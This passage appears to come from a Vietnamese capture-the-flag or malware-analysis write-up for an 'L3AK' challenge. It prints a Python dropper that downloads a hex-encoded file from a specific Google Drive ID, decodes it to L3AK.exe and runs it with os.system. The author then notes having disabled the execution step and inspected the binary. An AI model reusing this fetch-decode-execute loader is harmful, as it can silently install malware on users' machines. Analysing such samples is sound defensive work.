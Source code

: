 ```
    token = get_confirm_token(response)

    if token:
        params = {'id': file_id, 'confirm': token}
        response = session.get(URL, params=params, stream=True)

    save_response_content(response, destination)

def get_confirm_token(response):
    for key, value in response.cookies.items():
        if key.startswith('download_warning'):
            return value
    return None

def save_response_content(response, destination):
    CHUNK_SIZE = 32768

    with open(destination, "wb") as f:
        for chunk in response.iter_content(CHUNK_SIZE):
            if chunk:
                f.write(chunk)

def hex_to_binary(hex_str):
    return bytes.fromhex(hex_str)

def save_binary_to_file(binary_data, file_path):
    with open(file_path, 'wb') as file:
        file.write(binary_data)

def reverse_hex_conversion(file_path, output_file):
    with open(file_path, 'r') as file:
        hex_content = file.read().strip()
    binary_data = hex_to_binary(hex_content)
    save_binary_to_file(binary_data, output_file)

def run_retrieved_file(file_path):
    os.system(file_path)

if __name__ == "__main__":
    # Download the file and save it as file_hex.txt
    file_id = "1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0"
    input_file = "file_hex.txt"
    download_file_from_google_drive(file_id, input_file)
    
    # Convert hex to binary and save it as L3AK.exe
    output_file = "L3AK.exe"  
    reverse_hex_conversion(input_file, output_file)
    
    # Execute the retrieved file
    run_retrieved_file(output_file)
    
    print("File retrieved and executed as L3AK.exe")
```
- source khá là cơ bản và dễ hiểu thì nó sẽ tải 1 file có tên là `file_hex.txt` , mình có sửa lại code ko cho nó thực thi file `L3AK.exe` đó và thu được dữ liệu là file hex của file `L3AK.exe`, decode nó từ hex mình check bằng `Detect it easy` thì biết nó compile bằng python.